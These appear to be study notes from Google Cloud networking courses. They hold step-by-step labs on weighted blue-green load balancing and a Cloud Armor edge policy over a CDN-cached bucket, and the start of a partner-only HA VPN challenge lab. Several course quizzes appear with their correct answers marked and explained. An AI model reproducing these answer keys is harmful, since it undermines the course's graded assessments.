- **To create a duplicate copy of network traffic for analysis.**
- To redirect traffic to a different network interface.

Correct! This is the core function of Packet Mirroring, enabling deep analysis of network data.

2. Which of the following is a key benefit of using Packet Mirroring for network security analysis?

- **It enables the capture and inspection of traffic without impacting network performance.**
- It directly prevents cyberattacks.
- It automatically patches vulnerabilities in software.
- It reduces network bandwidth usage.

Correct. This is the primary benefit of packet mirroring. It allows  security tools to analyze network traffic without interfering with the  actual flow of data.


# 07 Networking in Google Cloud: Load Balancing

## Hybrid Load Balancing and Traffic Management

### LAB - Configuring Traffic Management with a Load Balancer

#### Overview

Google Cloud load balancers offer traffic management capabilities that vary by load balancer.

In this lab, you create a regional internal Application Load Balancer with two backends. Each backend will be an instance group. You will configure the load balancer to create a blue-green deployment.

The blue deployment refers to the current version of your application, and the green deployment refers to a new application version. You configure the load balancer to send 70% of the traffic to the blue deployment and 30% to the green deployment. When you’re finished, the environment will look like this:


#### Objectives

In this lab, you perform the following tasks:

- View the Google Cloud infrastructure that the load balancer will use.
- Create a regional internal Application Load Balancer with two backends.
- Implement traffic management on the load balancer.
- Test the load balancer.

#### Setup

For each lab, you get a new Google Cloud project and set of resources for a fixed time at no cost.

1. Sign in to Qwiklabs using an **incognito window**.
2. Note the lab's access time (for example, `1:15:00`), and make sure you can finish within that time.
   There is no pause feature. You can restart if needed, but you have to start at the beginning.
3. When ready, click **Start lab**.
4. Note your lab credentials (**Username** and **Password**). You will use them to sign in to the Google Cloud Console.
5. Click **Open Google Console**.
6. Click **Use another account** and copy/paste credentials for **this** lab into the prompts.
   If you use other credentials, you'll receive errors or **incur charges**.
7. Accept the terms and skip the recovery resource page.

**Note:** Do not click **End Lab** unless you have finished the lab or want to restart it. This clears your work and removes the project.

#### Task 1. View the Google Cloud infrastructure that the load balancer will use

##### **View the network, firewall rules, and Cloud Router**

The network *my-internal-app*, with *subnet-a* and *subnet-b* and firewall rules for RDP, SSH, and ICMP traffic, has been configured for you. Additional firewall rules have been configured to allow communication between the load balancer and the backends. Later, you create a regional internal Application Load Balancer in the my-internal-app network.

1. In the Google Cloud console, in the **Navigation menu** (), click **VPC network > VPC networks**.

   Each Google Cloud project starts with the *default* network. In addition, the *my-internal-app* network was created for you as part of your network diagram.

   Note the *my-internal-app* network with its subnets: *subnet-a* and *subnet-b*. Both subnets are in the `Region` region.

   Managed instance groups in *subnet-a* and *subnet-b* were also created for you.

2. (Optional) Click **subnet-a** and observe its configuration.

3. (Optional) Click **subnet-b** and observe its configuration.

4. In the **Navigation menu** (), click **VPC network > Firewall**.
   Note the following firewall rules that were created for you:

   | Firewall rule          | Purpose                                       |
   | :--------------------- | :-------------------------------------------- |
   | app-allow-icmp         | Allows ICMP communication                     |
   | app-allow-ssh-rdp      | Allows SSH and RDP over TCP ports 22 and 3389 |
   | fw-allow-health-checks | Allow health checks over TCP port 80          |
   | fw-allow-lb-access     | Allow traffic in the 10.10.0.0/16 subnet      |

5. (Optional) View the contents of each firewall rule.

6. In the Google Cloud console, on the **Navigation menu** (), click **View All Products**. In the left hand pane, select **Networking > Network Connectivity > Cloud Routers**.
   Note the *nat-router* Cloud Router that was created for the *my-internal-app* network. The load balancer will use this Cloud Router.

##### **View the instance groups**

The instance groups were created for you. Next, you will observe the configuration details.

1. On the **Navigation menu**, click **Compute Engine > VM instances**.
   Note the two VM instances that start with *instance-group-1* and *instance-group-2*.
2. Click **instance-group-1**.
3. Scroll to **Network interfaces**.
   Note that the instance group is in *subnet-a*, and its internal IP address is *10.10.20.2*.
4. Return to the **VM instances** page, and repeat steps 2 and 3 for **instance-group-2**.
   Note that this instance group is in *subnet-b*, and its internal IP address is *10.10.30.2*.

##### **Create a VM for testing**

You create a VM called *utility-vm* in *subnet-a* of the *my-internal-app* network and use it to test the load balancer.

1. Return to the **VM instances** page, and click **Create instance**.

2. Specify the following, and leave the remaining settings as their defaults:

   | Property     | Value (type value or select option as specified) |
   | :----------- | :----------------------------------------------- |
   | Name         | utility-vm                                       |
   | Region       | `<REGION>`                                       |
   | Zone         | `<ZONE 1>`                                       |
   | Series       | E2                                               |
   | Machine type | e2-medium (2vCPU, 4 GB memory)                   |

3. Click **OS and storage**.

   Click **Change** to begin configuring your boot disk and select the following values:

   - **Operating system**: `Debian`
   - **Version**: `Debian GNU/Linux 12 (bookworm) x86/64, amd64`

4. Click **Networking**.

5. For **Network interfaces**, click **default**.

6. Set the network interface properties and values as shown in the following table, and leave the remaining properties as their default values:

   | Property                      | Value (type value or select option as specified) |
   | :---------------------------- | :----------------------------------------------- |
   | Network                       | my-internal-app                                  |
   | Subnetwork                    | subnet-a                                         |
   | Primary internal IPv4 address | Ephemeral (Custom)                               |
   | Custom ephemeral IP address   | 10.10.20.50                                      |
   | External IPv4 address         | None                                             |

7. Click **Done**.

8. Click **Create**.
   Wait for the new VM to be created.

##### Verify the backends

1. For **utility-vm**, click **SSH** to launch a terminal and connect.
   If you see the **Allow SSH-in-browser to connect to VMs** pop-up, click **Authorize**.
2. To verify the welcome page for **instance-group-1-xxxx**, run the following command:

```
curl 10.10.20.2
```


The output is shown below. Note that the server location is set to `Zone 1`.

```
<h1>Internal Load Balancing Lab</h1><h2>Client IP</h2>Your IP address : 10.10.20.50<h2>Hostname</h2>Server Hostname:
 instance-group-1-1zn8<h2>Server Location</h2>Region and Zone: Zone 1
```

1. To verify the welcome page for **instance-group-2-xxxx**, run the following command:

```
curl 10.10.30.2
```


The output is shown below. Note that the server location is set to `Zone 2`.

```
<h1>Internal Load Balancing Lab</h1><h2>Client IP</h2>Your IP address : 10.10.20.50<h2>Hostname</h2>Server Hostname:
 instance-group-2-q5wp<h2>Server Location</h2>Region and Zone: Zone 2
```


Which of these fields identifies the location of the backend?


Server Location


Client IP


Server Hostname


Submit


**Note:** This will be useful when verifying that the load balancer sends traffic to both backends.

1. Close the SSH terminal to **utility-vm**:

```
exit
```


Click **Check my progress** to verify the objective.

Finish setting up the network infrastructure.


Check my progress


#### Task 2. Configure the load balancer

Configure a regional internal Application Load Balancer to balance traffic between the two backends (*instance-group-1* in `Zone 1` and *instance-group-2* in `Zone 2`), as shown (the region and zones may vary as per the lab requirement):


##### **Start the configuration**

1. In the Google Cloud console, in the **Navigation menu** (), click **View All Products**. In the left hand pane, select **Networking > Network Services > Load balancing**.
2. Click **Create load balancer**.
3. Under **Application Load Balancer (HTTP/HTTPS)**, click **next**.
4. For **Public facing or internal**, select **internal** and click **next**. This selection creates a regional internal Application Load Balancer. This choice requires the backends to be in a single region `Region`.
5. For **Cross-region or single region deployment**, select **Best for regional workloads** and click **next**.
6. Click **Configure**.
7. For **Name**, type **my-ilb**
8. For **Region**, select **`Region`**
9. For **Network**, select **my-internal-app**.

The proxy servers that implement the regional internal Application Load Balancer require IP addresses. These IP addresses are allocated automatically from a subnet that you specify.

1. Under **Proxy-only subnet required**, click **Reserve subnet**.
2. For **Name**, type **my-proxy-subnet**
3. For **IP address range**, type **10.10.40.0/24**
4. Click **Add**.
   Wait for the proxy-only subnet to be created. When that is successful, the console displays the name of the proxy-only subnet followed by the IP address range that you specified.

##### **Configure the blue-service backend**

This backend service refers to the present ("blue") version of your application.

1. Click **Backend configuration**.

2. For **Backend configuration**, for **Create or select backend service**, select **Create a backend service**.

3. For **Name**, type **blue-service**.

4. In **Backends**, specify the following, and leave the remaining settings as their defaults:

   | Property       | Value (type value or select option as specified) |
   | :------------- | :----------------------------------------------- |
   | Instance group | instance-group-1                                 |
   | Port numbers   | 80                                               |

5. Click **Done**.

6. For **Health check**, select **Create a health check**.

7. Specify the following, and leave the remaining settings as their defaults:

   | Property            | Value (select option as specified) |
   | :------------------ | :--------------------------------- |
   | Name                | blue-health-check                  |
   | Protocol            | TCP                                |
   | Port                | 80                                 |
   | Check interval      | 10 seconds                         |
   | Timeout             | 5 seconds                          |
   | Healthy threshold   | 2                                  |
   | Unhealthy threshold | 3                                  |

**Note:** Health checks determine which instances can receive new connections. This HTTP health check polls instances every ten seconds and waits up to five seconds for a response. After two successful probe attempts, the backend is considered to be healthy. After three failed attempts, the backend is considered to be unhealthy.

1. Click **Save**.
2. Click **Create**.
3. Verify that there is a blue check mark next to **Backend configuration** in the Google Cloud console. If there isn't, double-check that you have completed all the steps above.

##### **Configure the green-service backend**

This backend service refers to the new ("green") version of your application.

1. For **Backend configuration**, for **Create or select backend service**, select **Create a backend service**.

2. For **Name**, type **green-service**.

3. In **Backends**, specify the following, and leave the remaining settings as their defaults:

   | Property       | Value (type value or select option as specified) |
   | :------------- | :----------------------------------------------- |
   | Instance group | instance-group-2                                 |
   | Port numbers   | 80                                               |

4. Click **Done**.

5. For **Health check**, select **Create a health check**.

6. Specify the following, and leave the remaining settings as their defaults:

   | Property            | Value (select option as specified) |
   | :------------------ | :--------------------------------- |
   | Name                | green-health-check                 |
   | Protocol            | TCP                                |
   | Port                | 80                                 |
   | Check interval      | 10 seconds                         |
   | Timeout             | 5 seconds                          |
   | Healthy threshold   | 2                                  |
   | Unhealthy threshold | 3                                  |

7. Click **Save**.

8. Click **Create**.

Under **Backend services**, you should now see two entries: one for the blue-service and another for the green-service. If you do not see the green-service, you will need to re-do the task *Configure the green-service backend*.

1. Click **Ok**.

##### **Configure the "blue-green" routing rule**

Create a routing rule that routes 70% of traffic to the blue-service and 30% of traffic to the green service.

1. Click **Routing rules**.
2. In the **Routing rules** panel, for **Mode**, select **Advanded host and path rule**.
3. Click **Add host and path rule**.
4. For **Hosts**, type *****. The * (asterisk) matches all hosts.
5. Traffic management is configured using YAML format. Examine the following YAML code, and then copy and paste it into line 1 of the multi-line field **Path matcher (matches, actions, and services)**.

```
defaultService: regions/Region/backendServices/blue-service
name: matcher1
routeRules:
 - matchRules:
     - prefixMatch: /
   priority: 0
   routeAction:
     weightedBackendServices:
       - backendService: regions/Region/backendServices/blue-service
         weight: 70
       - backendService: regions/Region/backendServices/green-service
         weight: 30
```


1. Click **Done**.

##### **Configure the default routing rule**

When traffic does not match any of the other routing rules, the load balancer uses the default routing rule. Even though the rule you configured is designed to match all traffic, the default routing rule is required. You will configure the default routing rule to use the blue-service backend.

1. Click **(Default) Route traffic to backend "" for any unmatched hosts**.
2. In the **Edit host and path rule** panel, for **Service**, select **blue-service**, and then click **Done**.

##### **Configure the frontend**

The frontend forwards traffic to the backends.

1. Click **Frontend configuration**.

2. Specify the following, and leave the remaining settings as their defaults:

   | Property                    | Value (type value or select option as specified) |
   | :-------------------------- | :----------------------------------------------- |
   | Subnetwork                  | subnet-b                                         |
   | IP address                  | Ephemeral (Custom)                               |
   | Custom ephemeral IP address | 10.10.30.5                                       |

3. Click **Done**.

##### **Review and create the load balancer**

1. (Optional) Click **Review and finalize**. Review the **Backend** and **Frontend**.
2. Click **Create**.
   Wait for the load balancer to be created before starting the next task.

Click **Check my progress** to verify the objective.

Configure the load balancer.


Check my progress


#### Task 3. Test the load balancer

Verify that the *my-ilb* IP address forwards most of the traffic to the *blue-service* running on *instance-group-1* in *`Zone 1`*.

##### **Access the load balancer**

1. In the **Navigation menu**, click **Compute Engine > VM instances**.
2. For **utility-vm**, click **SSH** to launch a terminal and connect.
3. To verify that the load balancer forwards traffic, run the following command:

```
curl 10.10.30.5
```


The output should look like this:

```
<h1>Internal Load Balancing Lab</h1><h2>Client IP</h2>Your IP address : 10.10.20.50<h2>Hostname</h2>Server Hostname:
 instance-group-2-1zn8<h2>Server Location</h2>Region and Zone: YOUR_LAB_ZONE
```

As expected, traffic is forwarded from the load balancer (10.10.30.5) to either the blue-service backend or the green-service backend.

1. Run the same command a few times:

```
curl 10.10.30.5
curl 10.10.30.5
curl 10.10.30.5
curl 10.10.30.5
curl 10.10.30.5
curl 10.10.30.5
curl 10.10.30.5
curl 10.10.30.5
curl 10.10.30.5
curl 10.10.30.5
```


Most responses should come from *instance-group-1* in `Zone 1`, which is the blue-service. Fewer responses come from *instance-group-2* in `Zone 2`, which is the green-service. (Recall that you configured the load balancer to route 70% of the traffic to the blue-service.) If you do not see that most responses come from *instance-group-1*, run the commands again.

#### Task 4. Review

In this lab, you created two managed instance groups in the `Region` region. You also created some firewall rules. The firewall rules allow traffic from clients and the health checkers to the managed instance groups. You configured a regional internal Application Load Balancer, using the managed instance groups as backends. Finally, you tested the load balancer to ensure that it works as expected.


### Quiz

1. Where would you configure traffic management for a load balancer?

- In the load balancer frontend
- In the load descriptor
- In the load balancer backend
- **In the URL map**

Correct. The URL map contains rules that define the criteria to use to route incoming traffic to a backend service.

2. You can use hybrid load balancing to connect these environments:

- **Google Cloud, other public clouds, and on-premises**
- Google Cloud, AWS, and on-premises
- Google Cloud and on-premises
- Google Cloud and AWS

Correct. You can connect any destination that you can reach by using a  Google hybrid connectivity product and that can be reached with a valid  IP:Port combination.

3. When you use the internal IP address of the forwarding rule to specify an internal Network Load Balancer next hop, the load balancer can only be:

- In the same subnet as the next hop route or a Shared VPC network.
- In the same subnet as the next hop route.
- In the same VPC network as the next hop route.
- **In the same VPC network as the next hop route or in a peered VPC network.**

Correct. When you use an internal IP address to specify the next hop,  the load balancer can be in the same VPC network or a peered VPC  network.


## Caching and Optimizing Load Balancing

### LAB - Defending Edge Cache with Cloud Armor

#### Overview

[Google Cloud Armor](https://cloud.google.com/armor) [edge security policies](https://cloud.google.com/armor/docs/security-policy-overview#edge-policies) allow you to restrict access to cached objects on [Cloud CDN](https://cloud.google.com/cdn) (Content Delivery Network) and Cloud Storage. Edge security policies are deployed and enforced at the outermost perimeter of Google's network, upstream of where the Cloud CDN cache resides. Reasons to do this include ensuring that your users do not access objects in storage buckets from restricted geographies, or ensuring that your media distribution is filtering on the geographies that you have a license to do so.

In this lab you create a Google Cloud Storage bucket, upload an image to it, bind it to a load balancer, and then enable Cloud CDN and Cloud Armor edge security policies on it.

##### What you'll learn

In this lab, you learn how to:

- Set up a Cloud Storage Bucket with cacheable content
- Create an edge security policy to protect the content
- Validate that the edge security policy is working as expected

#### Setup and requirements

##### Before you click the Start Lab button

Read these instructions. Labs are timed and you cannot pause them. The timer, which starts when you click **Start Lab**, shows how long Google Cloud resources are made available to you.

This hands-on lab lets you do the lab activities in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials you use to sign in and access Google Cloud for the duration of the lab.

To complete this lab, you need:

- Access to a standard internet browser (Chrome browser recommended).

**Note:** Use an Incognito (recommended) or private browser window to run this lab. This prevents conflicts between your personal account and the student account, which may cause extra charges incurred to your personal account.

- Time to complete the lab—remember, once you start, you cannot pause a lab.

**Note:** Use only the student account for this lab. If you use a different Google Cloud account, you may incur charges to that account.

##### How to start your lab and sign in to the Google Cloud console

1. Click the **Start Lab** button. If you need to pay for the lab, a dialog opens for you to select your payment method. On the left is the Lab Details pane with the following:

   - The Open Google Cloud console button
   - Time remaining
   - The temporary credentials that you must use for this lab
   - Other information, if needed, to step through this lab

2. Click **Open Google Cloud console** (or right-click and select **Open Link in Incognito Window** if you are running the Chrome browser).

   The lab spins up resources, and then opens another tab that shows the Sign in page.

   ***Tip:\*** Arrange the tabs in separate windows, side-by-side.

   **Note:** If you see the **Choose an account** dialog, click **Use Another Account**.

3. If necessary, copy the **Username** below and paste it into the **Sign in** dialog.

   ```
   "Username"
   ```

   

   You can also find the Username in the Lab Details pane.

4. Click **Next**.

5. Copy the **Password** below and paste it into the **Welcome** dialog.

   ```
   "Password"
   ```

   

   You can also find the Password in the Lab Details pane.

6. Click **Next**.

   **Important:** You must use the credentials the lab provides you. Do not use your Google Cloud account credentials.

   **Note:** Using your own Google Cloud account for this lab may incur extra charges.

7. Click through the subsequent pages:

   - Accept the terms and conditions.
   - Do not add recovery options or two-factor authentication (because this is a temporary account).
   - Do not sign up for free trials.

After a few moments, the Google Cloud console opens in this tab.

**Note:** To access Google Cloud products and services, click the **Navigation menu** or type the service or product name in the **Search** field. 

##### Before you begin

- In Cloud Shell, set your Project ID and create an environment variable for it:

```
export PROJECT_ID=$(gcloud config get-value project)
echo $PROJECT_ID
gcloud config set project $PROJECT_ID
```


#### Task 1. Create a Cloud Storage bucket and upload an object

The Cloud Storage bucket will be the origin source for Cloud CDN.

1. In the console, go to **Navigation menu ()** > **Cloud Storage** > **Buckets**.
2. To create a new Cloud Storage bucket, click **CREATE**.
3. Set the bucket name as `Bucket Name`
4. Click **Continue**.
5. For **Location type**, select `Region`, and choose `Bucket Region`
6. Click **Continue**.
7. The default storage class for your bucket is `Standard`. Click **Continue**.
8. Uncheck `Enforce public access prevention on this bucket` checkbox under **Prevent public access**.
9. Choose **Fine-grained** under **Access Control**.
10. Click **Continue**.
11. Click **Create**.

That's it — you've just created a Cloud Storage bucket!

##### Upload an Object to the bucket

Now upload an object into the bucket, which you will use later. By default, Cloud Storage buckets are private. As part of this lab, you will make the object available to the Internet.

1. Run the following command in Cloud Shell, to download an image to Cloud Shell. A Google image from the Google homepage is used for this lab.

```
wget --output-document google.png https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png
```


1. Use the `gsutil cp` command to upload the image from the Cloud Shell to the bucket you created:

```
gsutil cp google.png gs://Bucket Name
```


1. Remove the downloaded image from Cloud Shell:

```
rm google.png
```


1. Locate the object you have uploaded to the bucket by navigating to **Cloud Storage > Buckets > `Bucket Name`**.
2. Now, click on the three dots on the right side of the object you uploaded and click **Edit access**.
3. Click on **Add Entry** and set the entity as **Public** from the drop-down list.
4. Click **Save**.


Click **Check my progress** to verify the objective.

Create a Cloud Storage Bucket and upload an object


Check my progress


#### Task 2. Create a Load Balancer

Cloud CDN and Cloud Armor are components that can be tied to Google's global [Cloud Load Balancing](https://cloud.google.com/load-balancing). In this section, you create an HTTP Load balancer.

1. In the **Navigation menu** (), click **View All Products > Network services** > **Load Balancing**.
2. Click **+CREATE LOAD BALANCER**.
3. Under Type of **load balancer**, select **Application Load Balancer (HTTP/HTTPS)** and click **NEXT**.
4. Under **Public facing or internal**, select **Public facing (external)** and click **NEXT**.
5. For **Global or single region deployment**, select **Best for global workloads** and click **NEXT**.
6. For **Load balancer generation**, select **Global external Application Load Balancer** and click **NEXT**.
7. Click **CONFIGURE** button.
8. Name the load balancer as `edge-cache-lb`.

##### Create frontend configuration

To create the frontend configuration:

1. Click on **Frontend configuration**.
2. For the frontend configuration use HTTP (though HTTPS also works if you have a certificate) and an ephemeral IP address and ensure that you have selected the premium tier network. This is by default.
3. Click **Done**.


##### Create backend configuration

To create the backend configuration:

1. Click on **Backend configuration**.
2. For **Backend services & backend buckets**, click **Create a backend bucket**.
3. Set the **Backend bucket name** to `lb-backend-bucket`.
4. In the next field, select the Cloud Storage bucket created earlier by clicking the **Browse** button.
5. Leave all other values at their defaults.
6. Click **Create**.

##### Create host and path rules

To create host and path rules:

1. Click on **Routing rules** on the left.
2. Select **simple host and path rule** under Mode to send any request to the bucket. This is the default option.

##### Review and create the HTTP Load Balancer

To review and create the HTTP Load Balancer:

1. Click on **Review and finalize**.
2. Review the **Backend services** and **Frontend**.
3. Click on **Create**.

##### Get Load Balancer IP

To get the Load Balancer IP from the console:

- Click the load balancer name in the list of load balancers for the project. Note the IPv4 address of the load balancer for the next task. Refer to it as `[LOAD_BALANCER_IP]`.


##### Query the Load Balancer

After a couple minutes, query the load balancer for the object you uploaded. You will need the load balancer IP address and the name of the image.

1. Run the following from CloudShell and replace the LOAD_BALANCER_IP with the IPv4 address of the load balancer:

```
curl -svo /dev/null http://LOAD_BALANCER_IP/google.png
```


**Note:** It might take up to 5 minutes to access the HTTP Load Balancer.

**Output:**

```
student-cloudshell% curl -svo /dev/null http://34.98.81.123/google.png
*   Trying 34.98.81.123...
* TCP_NODELAY set
* Connected to 34.98.81.123 (34.98.81.123) port 80 (#0)
> GET /google.png HTTP/1.1
> Host: YOUR_IP
> User-Agent: curl/7.64.1
> Accept: */*
>
< HTTP/1.1 200 OK
< X-GUploader-UploadID: ADPycdtoILI76KVsvBvdVGvSfzaxys1m3zYqCepBrmJxAI48ni24cWCRIdNu-53PX3DS6iycxp6xwFbMpwtcHHZQUQmEBxAgng
< Expires: Mon, 13 Dec 2021 22:58:26 GMT
< Date: Mon, 13 Dec 2021 21:58:26 GMT
< Cache-Control: public, max-age=3600
< Last-Modified: Mon, 13 Dec 2021 21:45:57 GMT
< ETag: "8f9327db2597fa57d2f42b4a6c5a9855"
< x-goog-generation: 1639431957957903
< x-goog-metageneration: 2
< x-goog-stored-content-encoding: identity
< x-goog-stored-content-length: 5969
< Content-Type: image/png
< x-goog-hash: crc32c=TeiHTA==
< x-goog-hash: md5=j5Mn2yWX+lfS9CtKbFqYVQ==
< x-goog-storage-class: STANDARD
< Accept-Ranges: bytes
< Content-Length: 5969
< Server: UploadServer
```

1. Run a few queries with this command:

```
for i in `seq 1 50`; do curl http://LOAD_BALANCER_IP/google.png; done
```


##### Confirm content served by Cloud CDN

- Validate that your content is being served from the CDN via CDN or Load Balancing Monitoring by navigating to **Network Services > Cloud CDN**.


You should be able to get close to a 100% hit ratio.

Click **Check my progress** to verify the objective.

Create a Load Balancer


Check my progress


#### Task 3. Delete the object from Cloud Storage bucket

Now that the cache is populated, delete the object from the bucket. This will reinfore that you are applying the policy to the cache and not the backend.

1. In the **Navigation menu** (), click **Cloud Storage > Buckets > `Bucket Name`**.
2. Select the object and delete it by clicking the **Delete** button at the top.
3. Click **Delete** at the prompt.

Click **Check my progress** to verify the objective.

Delete the object from Cloud Storage bucket


Check my progress


#### Task 4. Create an edge security policy

Cloud Armor policies are substantiated outside of the HTTP Load Balancer. Once the Cloud Armor policy is deployed, you can then associate it with one or more HTTP Load Balancer Backend Service or Bucket resources, referred to as a Target.

1. In the **Navigation menu** (), click **View All Products > Network Security > Cloud Armor policies** and click **Create Policy**.

1. Set the following values, leave all other values at their defaults and click **Next Step**:

| Property            | Value (type value or select option as specified) |
| :------------------ | :----------------------------------------------- |
| Name                | edge-security-policy                             |
| Policy type         | Edge security policy                             |
| Default rule action | Deny                                             |

1. In **Apply policy to targets** section, click **Add Target** and set the following values:

| Property                | Value                                               |
| :---------------------- | :-------------------------------------------------- |
| Type 1                  | Backend bucket (external application load balancer) |
| Backend Bucket target 1 | lb-backend-bucket                                   |

1. Click **Done**.
2. Click **Create Policy**.

##### Validate Edge Security Policy

Now that you've created an edge security policy in front of the back-end bucket, validate that it works as expected.

###### Check the security policy

After a few minutes have passed, you can check that the Cloud Armor policy is running.

From the command line, run the following command, which gives you a 403:

```
curl -svo /dev/null http://LOAD_BALANCER_IP/google.png
```


A 403 error occurs when you do not have permission to accessing a web page or something on a web server.

**Output:**

```
curl -svo /dev/null http://34.98.81.123/google.png
*   Trying 34.98.81.123...
* TCP_NODELAY set
* Connected to 34.98.81.123 (34.98.81.123) port 80 (#0)
> GET /google.png HTTP/1.1
> Host: YOUR_IP
> User-Agent: curl/7.64.1
> Accept: */*
>
< HTTP/1.1 403 Forbidden
< X-GUploader-UploadID: ADPycdtS6FtJOGIsiWYDrAAE8VFeQuNutcvbGoQe2t8EZxsuspVtmCjyiTv_P3CNktroHMOGFXkTCfG-Jj-rUO60ZGPpEbpqcw
< Content-Type: application/xml; charset=UTF-8
< Content-Length: 111
< Date: Mon, 13 Dec 2021 23:09:35 GMT
< Expires: Mon, 13 Dec 2021 23:09:35 GMT
< Cache-Control: private, max-age=0
< Server: UploadServer
```

###### Investigate the logs

Next, you check the logs to see the enforced edge security policy.

1. In the **Navigation menu** (), click **View All Products > Observability > Logging > Logs Explorer**.
2. Enter the below snippet into the query box and click **Run Query**:

```
resource.type:(http_load_balancer) AND jsonPayload.@type="type.googleapis.com/google.cloud.loadbalancing.type.LoadBalancerLogEntry" AND severity>=WARNING
```


1. Note the `403 response` and the enforced security policy.


Click **Check my progress** to verify the objective.

Create edge security policy for cloud Armor


Check my progress


##### Remove the security policy

To prove that the object is getting delivered from the CDN cache, remove the Cloud Armor security policy and query the object. The origin object has been removed from Cloud Storage, thus illustrating that the object is getting served from the edge cache.

1. In the **Navigation menu** (), click **View All Products > Network Security > Cloud Armor policies > edge-security-policy > Targets**.
2. Select the `lb-backend-bucket` target and click **Remove** to remove the target bucket. Confirm **Remove**.

1. Wait a few minutes, then send another `curl` to the resource in the Cloud Storage bucket:

```
curl -svo /dev/null http://LOAD_BALANCER_IP/google.png
```


You get a `200` response this time. The web page is acting as it is supposed to.

**Output:**

```
student-cloudshell% curl -svo /dev/null http://34.98.81.123/google.png

 Trying 34.98.81.123...
 TCP_NODELAY set
 Connected to 34.98.81.123 (34.98.81.123) port 80 (#0)
 GET /google.png HTTP/1.1
 Host: YOUR_IP
 User-Agent: curl/7.64.1
 Accept: */*

  HTTP/1.1 200 OK
  X-GUploader-UploadID: ADPycdtI7f49P3MSuZSZ8vl6RwfwmnIDJ59EeSKp7UPvLPawdaiRHXiNWLtseQTxUxceWOvSLvpYmT3pWVkV4qeIP7M
  Date: Mon, 13 Dec 2021 23:06:46 GMT
  Last-Modified: Mon, 13 Dec 2021 21:45:57 GMT
  ETag: "8f9327db2597fa57d2f42b4a6c5a9855"
  x-goog-generation: 1639431957957903
  x-goog-metageneration: 2
  x-goog-stored-content-encoding: identity
  x-goog-stored-content-length: 5969
  Content-Type: image/png
  x-goog-hash: crc32c=TeiHTA==
  x-goog-hash: md5=j5Mn2yWX+lfS9CtKbFqYVQ==
  x-goog-storage-class: STANDARD
  Accept-Ranges: bytes
  Content-Length: 5969
  Server: UploadServer
  Age: 1621
  Cache-Control: public,max-age=3600
 { [775 bytes data]
 Connection #0 to host 34.98.81.123 left intact
 Closing connection 0
```

Try it a couple of times and see if you get a 403 status code.

#### Congratulations!

You have successfully created a Cloud Storage bucket, uploaded an image to it, bound it to a load balancer, and then enabled Cloud CDN and edge security policies on it.


### Quiz

1. CDN Interconnect provides:

- A direct connection between your origin servers and Google's Cloud Load Balancing service.
- A private connection between your on-premises network and Google Cloud.
- **A direct peering connection between third-party content delivery networks (CDNs) and Google's edge network.**
- A virtual private network (VPN) tunnel between your VPC network and Google's global network.

Correct. CDN Interconnect facilitates direct peering between CDNs and Google's edge, improving content delivery.

2. When you use the internal IP address of the forwarding rule to specify an internal Network Load Balancer next hop, the load balancer can only be:

- **In the same VPC network as the next hop route or in a peered VPC network.**
- In the same VPC network as the next hop route.
- In the same subnet as the next hop route.
- In the same subnet as the next hop route or a shared VPC network.

This is correct. When using an internal IP address of the forwarding  rule, the Network Load Balancer can be located either in the same VPC  network as the next hop route or in a VPC network that is peered with  it.

3. Which of the following best practices help optimize load balancing cost?

- Ignoring load balancer health checks to avoid additional API calls.
- **Implementing a caching layer with a content delivery network (CDN).**
- Selecting the most expensive load balancer type for maximum performance.
- Overprovisioning load balancer resources to handle peak traffic loads.

Correct. CDNs can offload traffic from your origin servers, reducing the load on your load balancer and potentially allowing you to use a  smaller, less expensive option


# Networking in Google Cloud: Hybrid and Multicloud

## Connectivity Options

### Quiz

1. Your company is located in a city where Google Cloud does not have a Dedicated Interconnect location, but you need a private connection to your Google Cloud Virtual Private Cloud (VPC). Which Cloud Interconnect option is most suitable for this scenario?

- Dedicated Interconnect
- **Partner Interconnect**
- Carrier Peering
- Network Connectivity Center

This is correct. Partner Interconnect allows you to connect to Google's network through a supported service provider's facilities, even if there isn't a Dedicated Interconnect location in your city. This gives you a private connection to your VPC.

2. Which Google Cloud Interconnect option requires the customer to provide their own routing equipment and establish a Border Gateway Protocol (BGP) session with Google's edge network?

- **Dedicated Interconnect**
- Network Connectivity Center
- Partner Interconnect
- Cross-Cloud Interconnect

Correct. Dedicated Interconnect requires customers to establish a direct physical connection to Google's network at a colocation facility.


## Cloud VPN

### LAB - Create Highly Available VPN Connections between Google Cloud and AWS


#### PTPPF058

This lab is a part of the upcoming Partner Technical Presales Proficiency Framework (PTPPF) Program. This lab is intended for all technical Googlers and Partners. This lab is not intended for public consumption beyond this audience.

**Scoring:** You must score **80% or higher** to pass this PTPPF Challenge lab.

#### Challenge lab overview

This lab challenges you to perform actions and automation across products. Instead of following step-by-step instructions, you are given a common business scenario and a set of tasks – you then figure out how to complete them on your own, using your skills to come up with a solution that demonstrates your understanding of key concepts. An automated scoring system provides feedback on whether you have completed your tasks correctly. Are you up for the challenge?

#### Objective

This lab challenges you to demonstrate your ability to create highly available virtual private network (VPN) connections between Google Cloud and Amazon Web Services (AWS) for direct communication between virtual private cloud (VPC) networks across the two cloud platforms.

#### Setup and requirements

#### Log into AWS

Click the AWS Console link to log in to the AWS Management Console.

#### Log into Google Cloud

#### Before you click the Start Lab button

Read these instructions. Labs are timed and you cannot pause them. The timer, which starts when you click **Start Lab**, shows how long Google Cloud resources will be made available to you.

This Qwiklabs hands-on lab lets you do the lab activities yourself in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials that you use to sign in and access Google Cloud for the duration of the lab.

#### What you need

To complete this lab, you need:

- Access to a standard internet browser (Chrome browser recommended).
- Time to complete the lab.

**Note:** If you already have your own personal Google Cloud account or project, do not use it for this lab.

**Note:** If you are using a Pixelbook, open an Incognito window to run this lab.

#### How to start your lab and sign in to the Google Cloud Console

1. Click the **Start Lab** button. If you need to pay for the lab, a pop-up opens for you to select your payment method. On the left is a panel populated with the temporary credentials that you must use for this lab.

 

2. Copy the username, and then click **Open Google Console**. The lab spins up resources, and then opens another tab that shows the **Sign in** page.

 

 ***Tip:\*** Open the tabs in separate windows, side-by-side.

 If you see the **Choose an account** page, click **Use Another Account**.

  

3. In the **Sign in** page, paste the username that you copied from the Connection Details panel. Then copy and paste the password.

***Important:\*** You must use the credentials from the Connection Details panel. Do not use your Qwiklabs credentials. If you have your own Google Cloud account, do not use it for this lab (avoids incurring charges).

4. Click through the subsequent pages:

- Accept the terms and conditions.
- Do not add recovery options or two-factor authentication (because this is a temporary account).
- Do not sign up for free trials.

After a few moments, the Cloud Console opens in this tab.

